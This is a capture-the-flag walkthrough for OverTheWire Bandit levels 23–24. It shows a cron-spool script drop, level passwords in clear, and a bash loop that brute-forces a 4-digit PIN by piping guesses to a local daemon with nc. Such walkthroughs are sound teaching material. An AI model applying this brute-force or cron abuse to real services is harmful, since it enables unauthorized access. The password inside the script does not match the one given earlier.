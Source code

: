 - then after a minute wait we can read the password file , and we get the password for user bandit24 

```
bandit23@bandit:/tmp/tmp.0ZBsjCbm2W$ cp new.sh /var/spool/bandit24/foo/nothing.sh
bandit23@bandit:/tmp/tmp.0ZBsjCbm2W$ cat passwd
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

- Here we got the password for next level .

## <span style="color: orange;"><b>--> Level 24</b></span>

#### <span style="color: green;"><b>Login Info :</b></span>

```SSH: ssh bandit.labs.overthewire.org -l bandit24 -p 2220```
```Password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8```

#### <span style="color: green;"><b>Task :</b></span>

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

#### <span style="color: green;"><b>About :</b></span>

we have to use the previous level knowledge and bashing scripting ( specially loops for this level)

A **for-loop** in bash has the following syntax :

```bash
for var in 1 2 .... N
do 
    #code here for something
done
```

#### <span style="color: green;"><b>Solution :</b></span>

- we can't check password for everypincode one by one so we have to automate this thing 

```bash
#!/bin/bash
for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> possibilities.txt
done
cat possibilities.txt | nc localhost 30002 > result.txt
```
- and upon reading the file we got the our password s success 

```
bandit24@bandit:/tmp/tmp.RI7ykKeRrt$ ls
new.sh
bandit24@bandit:/tmp/tmp.RI7ykKeRrt$ chmod +x new.sh 
bandit24@bandit:/tmp/tmp.RI7ykKeRrt$ ./new.sh 
bandit24@bandit:/tmp/tmp.RI7ykKeRrt$ ls
new.sh  possibilities.txt  result.txt
bandit24@bandit:/tmp/tmp.RI7ykKeRrt$ cat result.txt 
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
